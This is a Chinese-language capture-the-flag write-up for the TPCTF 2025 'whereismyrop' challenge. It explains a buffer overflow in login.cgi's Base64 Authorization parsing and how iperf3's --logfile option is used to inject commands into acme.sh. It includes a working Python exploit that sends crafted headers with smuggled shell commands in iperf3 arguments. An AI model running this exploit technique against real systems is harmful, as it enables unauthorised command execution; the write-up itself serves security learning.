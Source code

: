 ```yaml
---
title: 2025tpctf-whereismyrop
date: 2025-3-10
categories: Stack
tag: 赛后诸葛亮
---
```


# 前言
这次比赛感觉还行, 和火箭一起三题出了两题, 另一题相对简单, 堆上的溢出, 主要是逆向难度较低, 所以做出的人很多
这题的门槛感觉就高了一些, 虽然漏洞点并不难理解, 但是估计交互方式卡住了一批人(我也搞了半天, 后来火箭发现login.js提供了交互模板, 配合上逆向就很容易看懂了)

# 题目运行逻辑
题目给了一个docker, 我看了眼start.sh, 启动了一个apache的服务, 然后就是启动basement程序了, 我还以为可以直接跟basement交互, 刚开始看了一会basement, 才发现他的socket是走的文件, 才看到cgi-bin中的login.cgi

所以真正的交互逻辑是向login.cgi发送请求, login.cgi解析后通过libCgi.so中的send_cmd函数向basement发送消息, 等待basement返回, 最后将返回值传回

并且basement中有十二个可以选择的函数, 但是login.cgi中只允许选择login, register, reset_password三个操作

# 漏洞点
漏洞出现在login.cgi中, 在decodeBase64函数中, 解析HTTP_AUTHORIZATION的时候没有限制长度, 所以会出现一个向bss段上的无限写入
选择basement中函数的变量刚好就在后面, 可以被覆盖, 所以通过这个漏洞就可以选择basement中的十二个的函数执行了
![decodeBase64](decodeBase64.png)

还有一个关键就是HTTP_AUTHORIZATION解析得到的值会作为函数执行的参数, 就等于可以控制参数的执行basement的任意函数了

# 利用方式
不得不说太神奇了, Linux仙人火箭用basement的iperf3做到了向acme.sh文件中写入命令, 然后再用basement中执行acme.sh命令的函数触发, 就可以做到命令执行
示例:
```sh
iperf3 -s -p 7070 
iperf3 -c 127.0.0.1 -p 7070 -T "cat flag" --logfile /root/.acme.sh/acme.sh
```
在第一行命令启动服务端后, 第二行命令链接本地的服务端, -T是title str, 会将"cat flag"放在每一行输出的头部, --logfile是将输出写到文件里, 就可以向acme.sh写入任意内容
basement中的6和8分别可以控制带参数执行服务端和客户端的iperf3

然后在10, 11, 12中都可以执行acme.sh获取命令执行
最后还被出题人恶心了一把, 真正的flag名字为什么什么flaG什么什么
昨天尝试读flag时试了`*flag*`都不行, 直接给我和火箭看傻了

还好后来火箭又找到一个办法, 用了`find / -maxdepth 1 -fprint /var/www/html/ls.html`得到根目录下所有文件名字

最后再通过`cp *flaG* /var/www/html/flag.html`, 访问`ip:port/flag.html`即可

# exp
```python
import requests
from urllib.parse import quote
import base64
from bs4 import BeautifulSoup
from pwn import *

url_port = '127.0.0.1:7070'

def hack(arg1: str, arg2: str, cmd: int):
    auth_str = arg1.encode() + b':' + arg2.encode() + b':randstr:'
    auth_str = auth_str.ljust(0x200) + p8(cmd)
    b64_auth = base64.b64encode(auth_str).decode('utf-8')
    
    headers = {
        'Authorization': f'Basic {b64_auth}',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    
    login_url = f"http://{url_port}/cgi-bin/login.cgi?reset_password"
    data = f"id={str(id_value)}"
    
    response = requests.post(login_url, headers=headers, data=data)
    print(f"{response.headers}")
    

if __name__ == "__main__":
    id_value = str(111111111111111111111111)
    hack('127.0.0.1', '7070', 6)
    hack('127.0.0.1', '7070 -T "find / -maxdepth 1 -fprint /var/www/html/ls.html #" --logfile /root/.acme.sh/acme.sh', 9)
    hack('127.0.0.1', '7070 -T "cp /*flaG* /var/www/html/flag.html # " --logfile /root/.acme.sh/acme.sh', 9)
    hack(' ', ' ', 11)

```

# 后记
这题叫whereismyrop, 导致我一直非常认真地检查basement中的读入有没有溢出, 结果居然溢出出现在login.cgi, 而且是以并不能rop的形式出现, 也是有些戏剧性了. 蹲一手wp, 不会真的能做到rop吧